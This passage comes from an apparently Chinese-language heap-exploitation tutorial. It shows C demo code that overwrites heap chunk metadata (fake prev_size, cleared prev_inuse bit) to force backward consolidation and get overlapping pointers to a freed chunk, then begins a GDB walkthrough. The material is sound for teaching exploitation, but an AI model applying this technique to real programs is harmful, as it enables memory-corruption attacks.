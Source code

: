 ```
    printf("0x500 bytes for the data, 0x10 bytes for the metadata, and 0x1 byte to designate that the previous chunk is in use. Our overflow will overwrite this, and the previous size value.\n");
    printf("We will overwrite the size to be 0x510, essentially clearing the previous in use bit. This way when we free this chunk, it will think that the previous chunk has been freed (which it hasn't).\n");
    printf("So following that, we will place a fake previous size which is the previous QWORD behind the size. We will put it as 0x590, so it thinks that the previous chunk goes all the way back to where Chunk 0 is.\n");
    printf("Then when we free Chunk 2, it will consolidate the heap past chunk 1 and up to chunk 0. Then we can start allocating memory from where Chunk 0, and get an overlapping pointer to where Chunk 1 is, since it thinks it has been freed.\n");
    printf("Let's do the overwrite.\n\n");

    ptr1[14] = 0x590;
    ptr1[15] = 0x510;

    printf("Chunk 2 @ %p\nPrevious Size: 0x%lx\nSize: 0x%lx\n\n", ptr2, ptr2[-2], ptr2[-1]);

    printf("Now we free chunk 2 to cause consolidation.\n\n");

    free(ptr2); //------------------&gt;b3
    ptr2 = 0;   //------------------&gt;b4

    printf("Now we can allocate a 0x500 chunk and an 0x70 chunk, and we wil get a pointer to where chunk 1 was.\n\n");
    ptr4 = malloc(0x500);
    ptr5 = malloc(0x70);    

    printf("Chunk 4: %p\t Size: 0x500\n", ptr4);
    printf("Chunk 5: %p\t Size: 0x30\n\n", ptr5);

    printf("With that we can just free Chunk 1 (which is the same as Chunk 5), and we will be able to edit a freed heap chunk.\n\n");

    free(ptr1);  //-------------------&gt;b5
    ptr1 = 0;   //-------------------&gt;b6

    char *data = "15935728\x00";
    memcpy(ptr5, data, 0x9);

    printf("Chunk 5 @ %p\t Contains: %s\n\n", ptr5, (char *)ptr5);

    printf("Just like that we use a heap overflow to cause a heap consolidation past an allocated chunk, get overlapping pointers, and edit a free chunk!\n");
`}`
```

我们先看看b1-b6几处的堆的情况。<br>
在b1处下断点，目的是观察在free之前各个chunk的地址

[![](https://p5.ssl.qhimg.com/t01193527c4c93e4325.png)](https://p5.ssl.qhimg.com/t01193527c4c93e4325.png)
